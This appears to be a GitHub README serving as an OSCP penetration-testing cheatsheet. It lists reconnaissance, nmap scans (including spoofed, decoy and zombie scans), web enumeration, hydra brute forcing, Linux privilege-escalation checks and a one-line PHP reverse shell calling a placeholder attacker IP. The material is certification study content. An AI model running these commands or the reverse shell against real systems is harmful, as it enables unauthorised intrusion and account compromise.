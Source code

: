 # OSCP-Cheatsheet
The essential tools and procedure Kaoryu for OSCP  
You can find important upload on top of page
## Global RoadMap for Pentest _For Linux_
### 1. Passive recognition
 - Command helpful for passive recognition 
```bash
whois <sitename.example>
# query the DB whois to list the informations of a domain name
nslookup -type=A <sitename.example> <IP address>
# list the IPv4 link at this domain name
nslookup -type=MX nomdedomaine.exemple <IP address>
# list the mail server at this domain name
```
 - 2 sites more helpful and wider than command  
   [DNSdumper.com](DNSdumper.com) and [Shodan.io](Shodan.io)
### 2. System enumeration
#### 2.1 Scan Port
 - **Nmap** and these most useful parameters
```bash
nmap -sS <IP address>
#nmap with the flag SYN
nmap -sL <IP address>-255
#allow to test a range of IP address
nmap -sL <IP address>/29
#allow to scan all IP address of a subnet here subnet 29
sudo nmap -PR -sn <IP address>
#-PR only scan with ARP request and don't scan the ports with -sn
sudo nmap -S SPOOFED_IP <IP address>
#scan with spoofed address
nmap -D DECOY_IP,ME <IP address>
#scan with decoy adress
sudo nmap -sI ZOMBIE_IP <IP address>
#scan from zombie address (ex: old printer)
nmap --reason <IP address>
#explains his reason of why this port or this port is open
nmap -sV --version-all <IP address>
#Connexion 3-way handshake to know the version of services
sudo nmap -sS -O <IP address>
#detection of l'OS
sudo nmap -sS --traceroute <IP address>
#like traceroute but with nmap
sudo nmap -sS --script=<default> <IP address>
#allow to use a script by default stored here: /usr/share/nmap/scripts
sudo nmap -sS -oG <foldername> <IP address>
#transfer the result to new folder grepable 
# -p- scan all ports, -f ou -ff (divide the packets for firewalls)
sudo nmap -sN -oG NOM_DU_FICHIER <IP address>
#use -sN for the null Flag and don't be detect by IPS
```
#### 2.2 HTTP/S enumeration
- port 80 http and port 443 https
- Inspect source code, request http, cookies, and storage in application,...
- If a image look suspicious dowload it and use steganography
```bash
binwalk <image.jpg>
#allow to see if a other folder is hide in image
binwalk -e <image.jpg> 
#extract hidden data
stegide extract -sf <image.jpg> -p <passphrase>
#allow to extract data lock with password
stegseek <image.jpg> /usr/share/wordlists/rockyou.txt
#brute force the password of date 
```
- Common http directory `/robots.txt`,`/images`,`/admin`,`/bin`,`/cgi-bin`,`/stats`,`/icons`,`/doc`,`/docs`
- We can automatize enumeration 
```bash
gobuster dir -u http://<IP address> -w /usr/share/worldist.txt -x txt,xml,js,css,html,php
ffuf -u http://<IP address>/FUZZ -w /usr/share/worldist.txt -p "0.1" -H "Name:Value" (-H = Header)
#scan wide hidden directory 
nikto -h http://<IP address>
#in addition to gobuster or ffuf scan
```
#### 2.3 SMB enumeration
- port 445 by default
```bash
#enum4linux -a http://<IP address>
enumeration of SMB server
```
#### 2.4 SSH enumeration
- port 22 by default
```bash
telnet <IP address> 22
#use telnet (TCP/IP text) to communicate with ssh 
```
### 3. Exploit
#### Reverse shell
- reverse shell linux [hacktricks.xyz/reverse-shells/linux](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux)
```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/ATTACKING-IP/1234 0>&1'");
#simple balise php
```
#### Password bruteforce
- before bruteforce prefer to find a valid username because combination of bruteforce username and password is very very long
```bash
hydra -l <username> -P /usr/share/worldist.txt <IP address> http-post-form "/login:login=^USER^&password=^PASS^:message_erreur" #header parameters
#allow to brutforce http page
hydra -s <port> -l <username> -P /usr/share/worldist.txt -t 64 -vV -f <protocol>://<adresse IP>
#syntax of hydra
```
#### hashcracking
### 4. escalation privilege LINUX
- You need to search about kernel version, user and group, services, logs, host directory,.... 
- see the important location file in documents of this page
```bash
uname -a
#give name of host and kernel
id
#name and group user
sudo -l
#allow look if user have permission to use sudo
getcap -r / 2>/dev/null
#list user capabilities
find / -type f -perm -04000 -ls 2>/dev/null
#list folder with SUID or GUID
cat /etc/crontab
#list user crontrab (they can be modifed for be execute by root)
```
- if there are SUID ou GUID look [gtfobins.io](https://gtfobins.github.io/)
- for tansfer script or folder with server/attacker machine :
```bash
nc -q 0 <adress IP of owner folder> 1234 > script.sh
#netcat for the machine who want the script
scp script.sh <user>@<IP address>:/example/script.sh 
#use scp to download script on other machine

#Don't forget to give permission to execute script
chmod +x script.sh
```
- can automatize enumeration system with [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) or [LinEnum.sh](https://github.com/rebootuser/LinEnum)
```bash
./linpeas.sh
```
### 5. escalation privilege WINDOWS
## Important tools
### Burpsuite
 #### 1. intruder
 - allow to brut force with multiple wordlist
 #### 2. repeater
 #### 3. sequencer
 #### 4. comparer
 #### 5. macro
send a request capture by proxy to modify manuely
### wireshark

  
